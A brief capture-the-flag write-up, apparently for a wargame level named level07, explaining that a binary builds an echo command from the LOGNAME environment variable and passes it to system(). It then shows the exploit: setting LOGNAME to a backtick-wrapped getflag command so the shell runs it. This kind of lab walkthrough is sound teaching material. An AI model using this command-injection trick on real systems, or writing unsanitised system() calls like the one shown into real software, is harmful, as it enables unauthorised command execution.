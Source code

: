 There is a binary file in our home.

By disassembling it we can see that the program create a string that will echo the `LOGNAME` env variable using `system()`
```c
asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
return system(var_1c);
```

We then export the LOGNAME env variable to call the `getflag` command.
```bash
export LOGNAME=\`getflag\`
./level07
```